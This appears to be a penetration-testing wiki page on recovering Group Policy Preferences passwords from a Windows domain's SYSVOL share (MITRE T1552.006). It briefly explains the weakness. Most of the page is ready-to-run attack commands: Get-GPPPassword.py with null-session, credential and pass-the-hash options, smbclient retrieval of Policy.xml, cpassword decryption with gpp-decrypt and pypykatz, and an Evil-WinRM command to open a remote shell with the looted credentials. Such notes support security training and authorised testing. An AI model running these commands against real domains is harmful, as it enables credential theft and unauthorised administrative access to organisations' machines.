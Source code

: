 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator (with an RID of 500) that most organizations want to change the password of. This can be achieved in multiple ways but there is one that is to be avoided: setting the built-in Administrator's password through Group Policies.

* **Issue 1**: the password is set to be the same for every (set of) machine(s) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all (or set of) machines.
* **Issue 2**: by default, knowing the built-in Administrator's hash (RID 500) allows for powerful [Pass-the-Hash](https://www.thehacker.recipes/a-d/movement/ntlm/pth) attacks ([read more](https://www.thehacker.recipes/a-d/movement/ntlm/pth#limitations-tips-and-tricks)).
* **Issue 3**: all Group Policies are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷‍♂️.



***

## Practical

{% hint style="info" %}
From UNIX-like systems, the [Get-GPPPassword.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/Get-GPPPassword.py) (Python) script in the impacket examples can be used to remotely parse `.xml` files and loot for passwords.
{% endhint %}

```
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

```



## SYSVOL

```
smbclient -U 'Username' \\\\<IP>\\SYSVOL

# Download Policy.xml file
get Policy.xml
```

### Decrypt the Password (Manual)

{% hint style="info" %}
If you have downloaded the Policies.xml file from the remote system's SYSVOL share then you can decrypt the cpassword value using the below tools
{% endhint %}

```
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw

gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```

### Decrypt CPassword (Tool)

#### [gpp-decrypt.rb](https://github.com/3ls3if/Cybersecurity-Tools/tree/main/ruby-tools)

```
# Download
https://github.com/3ls3if/Cybersecurity-Tools/blob/main/ruby-tools/gpp-decrypt.rb

# Run
ruby gpp-decrypt.rb
```

{% hint style="info" %}
**Note:** You need to manual put the **cpassword** in the source code.
{% endhint %}

#### [gpp-decrypt.py](https://github.com/t0thkr1s/gpp-decrypt)

```
# Download 
git clone https://github.com/t0thkr1s/gpp-decrypt

# Installation
python3 setup.py install

# Run
python3 gpp-decrypt.py -f [groups.xml]
or
python3 gpp-decrypt.py -c [cpassword]
```

## Get Remote Shell Access

### Evil-WinRM

```
sudo docker run --rm -ti --name evil-winrm  oscarakaelvis/evil-winrm -i <IP> -u <svc_dbbackup> -p '<password>'
```

{% hint style="info" %}
**Note:** The username above should match the value found in the `Policy.xml` file. In my case the username was found in the format

**newName="svc\_dbbackup"**
{% endhint %}





***

## REFERENCES

* [https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences](https://www.thehacker.recipes/a-d/movement/credentials/dumping/group-policies-preferences)
* [https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/#:\~:text=Exploiting%20Group%20Policy%20Preferences%20via%20Metasploit%20%2DI,-As%20we%20know\&text=This%20module%20enumerates%20files%20from,using%20Microsoft's%20public%20AES%20key.](https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/)
* [https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/](https://podalirius.net/en/articles/exploiting-windows-group-policy-preferences/)
* [https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp](https://www.mindpointgroup.com/blog/privilege-escalation-via-group-policy-preferences-gpp)
* [https://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html](https://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html)
* [https://github.com/3ls3if/Cybersecurity-Tools/tree/main/ruby-tools](https://github.com/3ls3if/Cybersecurity-Tools/tree/main/ruby-tools)
